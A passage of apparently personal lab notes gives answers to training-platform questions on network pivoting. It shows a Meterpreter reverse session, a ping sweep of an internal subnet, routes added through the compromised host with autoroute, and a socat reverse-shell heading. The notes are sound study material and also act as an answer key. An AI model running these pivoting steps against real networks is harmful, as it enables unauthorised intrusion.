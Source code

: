 Recieve the callback in metepreter and run a ping sweep.

```
[*] Sending stage (3045348 bytes) to 10.129.50.188
[*] Meterpreter session 1 opened (10.10.15.53:8080 -> 10.129.50.188:52202) at 2023-02-21 05:35:52 -0500

meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
(...)
[+]     172.16.5.19 host found
(...)
[+]     172.16.5.129 host found
```

**Answer:** `172.16.5.19,172.16.5.129`

### Question 2:
![](./attachments/Pasted%20image%2020230221114520.png)
*Hint: Pay careful attention to the output generated when running AutoRoute.*

```
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.50.188
[*] Use the -p option to list all active routes
```

**Answer:** `172.16.5.0/255.255.254.0`

---
## Socat Redirection with a Reverse Shell
### Question:
![](./attachments/Pasted%20image%2020230221120205.png)

The answer is given in the section text.

